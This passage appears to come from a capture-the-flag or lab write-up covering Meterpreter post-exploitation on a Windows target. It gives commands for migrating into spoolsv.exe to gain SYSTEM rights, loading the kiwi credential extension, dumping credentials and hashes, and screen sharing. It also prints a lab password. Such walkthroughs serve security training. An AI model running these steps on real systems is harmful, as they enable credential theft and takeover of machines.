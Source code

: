 ### We were going to migrate the process run by admin.
```
migrate -N spoolsv.exe
```

<div align="center">
<img src="https://github.com/user-attachments/assets/b3072cee-555e-4458-b114-769c021485ea" height=""></img>
</div>

### After migratre check for uid, as we sucessfully migrated and we are noW NT AUTHORITY.

### Let loot the site 
```
load kiwi
```
* ###  Kiwi extensions to perform various types of credential-oriented operations, such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and much more.

<div align="center">
<img src="https://github.com/user-attachments/assets/e61fc830-fb43-4d0a-a7a9-2b8ae6237c12" height=""></img>
</div>

### We can use help command to get help of kiwi.
### So first we going to Retrieve all credentials.
```
creds_all
```

<div align="center">
<img src="https://github.com/user-attachments/assets/442eb822-c961-4845-839d-2cd9eb6e9b0a" height=""></img>
</div>

* ### The password for dark is ```Password01!```.

## Task 6. Post-Exploitation

### Let dump all the passwords.
```
hashdump
```

### We can also share the screen of target using 
```
screenshare
```

<div align="center">
<img src="https://github.com/user-attachments/assets/8774abf3-f319-4e73-9ef9-919e47fa2438" height=""></img>
</div>
